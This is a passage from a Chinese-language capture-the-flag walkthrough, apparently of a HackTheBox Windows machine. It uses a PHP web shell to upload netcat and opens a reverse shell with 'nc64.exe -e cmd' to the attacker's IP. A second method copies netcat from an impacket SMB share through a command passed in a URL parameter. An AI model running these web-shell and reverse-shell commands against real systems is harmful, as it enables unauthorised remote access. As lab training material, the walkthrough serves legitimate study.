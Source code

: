 检查 php 执行正常...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJTz9C2fM1FCL1zA3cnibsW93iaTPDkd0mxURH1EzkExuOGIYMUyhaSW5Zg/640?wx_fmt=png)

重新运行...

```
http://10.10.10.9/dayuxiyou.php?fupload=nc64.exe（上传nc.exe）
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJT704IrVmumpkbu4fibClPXZ2KhTNcUcMMYTPzrybL9o7IicO40eBzLtZw/640?wx_fmt=png)

```
http://10.10.10.9/dayuxiyou.php?dayu=nc64.exe&dayu=nc64.exe -e cmd 10.10.14.16 6001
```

成功获得反向 shell...

  

  

方法 3：

  

  

利用 kali 自带的 smbserver，并进行共享...

locate smbserver.py 查找...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJT9RI6bdtRovhHxtxUj45CUDETjMrwAPU1kSjRSAR7Lt2WOtyDqEdbdQ/640?wx_fmt=png)

```
python /root/Desktop/dayuBastard/smbserver.py dayugongxiang /var/www/html/
```

开启共享文件，dayugongxiang ，然后 html 目录下放了 nc64.exe 或者 nc.exe 即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJTk51yicoAApS4AL2odDatkBJKqRRFOQnKI78Clvv8D2TrkSQvJQUOjdg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJTzFicqdFgGTCYdBbicfSTItb43ZB03ibnNIAGImEaz22XBVVlU54FERYtg/640?wx_fmt=png)

```
10.10.10.9/dayuxiyou.php?dayu=copy \\10.10.14.16\dayugongxiang\nc64.exe nc64.exe
```

可以看到已经成功复制文件进去...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJTSHxo7ibW1ZKvo0asGMMsR8r1jia294fEPTgMr4UGP0kIHKx9D834fTicA/640?wx_fmt=png)

成功获得反向 shell...

  

  

方法 4：

  

  

利用官方介绍的方法进行提权...
